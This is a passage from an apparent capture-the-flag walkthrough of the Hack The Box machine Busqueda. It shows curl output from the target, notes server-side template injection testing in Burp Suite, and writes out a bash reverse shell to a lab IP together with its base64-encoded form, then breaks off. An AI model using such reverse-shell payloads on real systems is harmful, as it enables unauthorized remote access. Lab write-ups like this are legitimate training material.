 ```bash hl_lines="13 35"
> User-Agent: curl/8.11.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Fri, 07 Feb 2025 04:03:51 GMT
  Server: Werkzeug/2.1.2 Python/3.10.6
< Content-Type: text/html; charset=utf-8
< Content-Length: 13519
< Vary: Accept-Encoding
< 
{ [1146 bytes data]
* Connection #0 to host searcher.htb left intact
```

After going through the burbsuit and testing some Server Site Templete Injection SSTI we came to find the right chars that will spit out system info. see below screenshot for the burbsuit
![Burbsuit](../../Assets/walktrhough-assets/busqueda-burbsuit.png)

let's get a reverse shell.
```bash
echo -n "bash -c 'bash -i  >& /dev/tcp/10.10.16.10/9001 0>&1'  " |  base64
```
used spaces to remove the spcial charechters (+ and ==)
`YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTAvOTAwMSAwPiYxJyAg`

### Breakdown:

1. **`echo -n "bash -c 'bash -i >& /dev/tcp/10.10.16.10/9001 0>&1' "`**
    
